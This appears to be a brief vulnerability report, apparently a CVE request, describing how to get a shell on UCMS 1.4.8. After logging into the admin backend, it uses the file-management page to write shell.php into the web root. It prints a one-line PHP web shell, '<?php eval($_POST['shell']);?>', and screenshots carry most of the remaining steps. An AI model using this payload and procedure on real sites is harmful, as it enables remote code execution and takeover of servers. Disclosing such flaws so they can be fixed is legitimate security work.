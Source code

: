 
#UCMS v1.4.8 getshell


###Vulnerability Version :

1.4.8

Open the URL [http://127.0.0.1/login.php](http://127.0.0.1/login.php), Login to the background.

Open the URL [http://127.0.0.1/ucms/index.php?do=sadmin_file](http://127.0.0.1/ucms/index.php?do=sadmin_file)

###Create a shell.php file to submit

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS.png)


![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS2.png)

###Put the request just in the root directory


![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS3.png)

#### found the poc： <?php eval($_POST['shell']);?> 

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS5.png)


###getshell

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS4.png)

